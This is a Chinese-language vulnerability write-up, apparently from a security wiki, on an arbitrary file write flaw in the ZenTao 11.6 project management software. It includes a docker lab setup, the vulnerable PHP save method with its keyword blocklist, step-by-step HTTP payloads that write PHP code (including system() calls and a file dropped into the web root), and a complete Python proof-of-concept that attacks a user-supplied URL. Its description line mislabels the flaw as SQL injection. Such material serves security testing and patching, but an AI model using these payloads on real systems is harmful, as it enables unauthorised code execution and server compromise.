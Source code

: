 # 禅道 11.6 api-getModel-editor-save-filePath 任意文件写入漏洞

## 漏洞描述

禅道 11.6 版本中对用户接口调用权限过滤不完善，导致调用接口执行SQL语句导致SQL注入

## 影响版本

```
禅道 11.6
```

## 环境搭建

这里使用docker环境搭建

```plain
docker run --name zentao_v11.6 -p 8084:80 -v /u01/zentao/www:/app/zentaopms -v /u01/zentao/data:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=123456 -d docker.io/yunwisdom/zentao:v11.6
```

访问 [**http://xxx.xxx.xxx.xxx:8084**](http://xxx.xxx.xxx.xxx:8084) 按步骤安装即可

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162304907.png)

## 漏洞复现

这里造成漏洞的原因同样是调用接口权限无限制的原因

接口出现漏洞的原因具体参考可以查看上一篇 **禅道 11.6版本 SQL注入漏洞** 关于此漏洞的完整分析

查看**module/api/ediyor/moudel.php**下的**save方法**

```php
public function save($filePath)
    {
        $fileContent = $this->post->fileContent;
        $evils       = array('eval', 'exec', 'passthru', 'proc_open', 'shell_exec', 'system', '$$', 'include', 'require', 'assert');
        $gibbedEvils = array('e v a l', 'e x e c', ' p a s s t h r u', ' p r o c _ o p e n', 's h e l l _ e x e c', 's y s t e m', '$ $', 'i n c l u d e', 'r e q u i r e', 'a s s e r t');
        $fileContent = str_ireplace($gibbedEvils, $evils, $fileContent);
        if(get_magic_quotes_gpc()) $fileContent = stripslashes($fileContent);

        $dirPath = dirname($filePath);
        $extFilePath = substr($filePath, 0, strpos($filePath, DS . 'ext' . DS) + 4);
        if(!is_dir($dirPath) and is_writable($extFilePath)) mkdir($dirPath, 0777, true);
        if(is_writable($dirPath))
        {
            file_put_contents($filePath, $fileContent);
        }
        else
        {
            die(js::alert($this->lang->editor->notWritable . $extFilePath));
        }
    }
```

**$filePath参数和$fileContent参数** 我们是可控的

调用方法往 **/tmp**写入一个**phpinfo()**

```plain
http://xxx.xxx.xxx.xxx/api-getModel-editor-save-filePath=/tmp/shell.php

POST:fileContent=<?php phpinfo();?>
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162305743.png)

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162305838.png)

在利用 禅道 11.6版本 任意文件读取漏洞 第二种方法来文件包含

```plain
http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/tmp/shell/1
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162305119.png)

也可以写入网站目录中

先获取地址

```plain
http://xxx.xxx.xxx.xxx/api-getModel-editor-save-filePath=/tmp/shell

POST：fileContent=<?php system('find / -name ioncube.php')?>');?>
```

访问[**http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/tmp/shell/1**](http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/tmp/shell/1)

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162305332.png)



得到目录为 **/app/zentaopma/www**

请求改为

```plain
http://xxx.xxx.xxx.xxx/api-getModel-editor-save-filePath=/tmp/shell

fileContent=<?php file_put_contents('/app/zentaopms/www/xxx.php', '<?php phpinfo();?>');?>
```

再去访问[**http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/tmp/shell/1**](http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/tmp/shell/1)则会再网站目录下生成 xxx.php 文件



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162305334.png)

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162305426.png)

## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                        \033[0m')
    print('+  \033[34mVersion: zentao version = 11.6                                    \033[0m')
    print('+  \033[36m使用格式: python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mZentaosid   >>> xxxxxxxxxxxxxx(cookie字段)                          \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    version_url = target_url + "/www/index.php?mode=getconfig"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        response = requests.get(url=version_url, timeout=20, headers=headers)
        version = json.loads(response.text)['version']
        print("\033[32m[o] 禅道版本为:{}\033[0m".format(version))

    except Exception as e:
        print("\033[31m[x] 获取版本失败 \033[0m", e)
        sys.exit(0)

def POC_2(target_url, zentaosid):
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie": "zentaosid={}".format(zentaosid)
    }
    data = {"fileContent":"<?php phpinfo();?>"}
    write_url = target_url + "/api-getModel-editor-save-filePath=/tmp/test"
    try:
        response = requests.post(url=write_url, data=data, headers=headers, timeout=10)
        print("\033[32m[o] 尝试写入php文件... \033[0m")
    except:
        print("\033[31m[x] 写入php文件失败 \033[0m")
        sys.exit(0)

def POC_3(target_url, zentaosid):
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie": "zentaosid={}".format(zentaosid)
    }
    vuln_url = target_url + "/api-getModel-api-getMethod-filePath=/tmp/test/1"
    try:
        response = requests.get(url=vuln_url, headers=headers, timeout=10)
        if "System" in response.text:
            print("\033[32m[o] 成功写入文件，存在漏洞, 访问 {}/api-getModel-api-getMethod-filePath=/tmp/test/1/ 查看 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 读取php文件失败 \033[0m")
    except:
        print("\033[31m[x] 读取php文件失败 \033[0m")



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    zentaosid  = str(input("\033[35mZentaosid >>> \033[0m"))
    POC_1(target_url)
    POC_2(target_url, zentaosid)
    POC_3(target_url, zentaosid)
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162305586.png)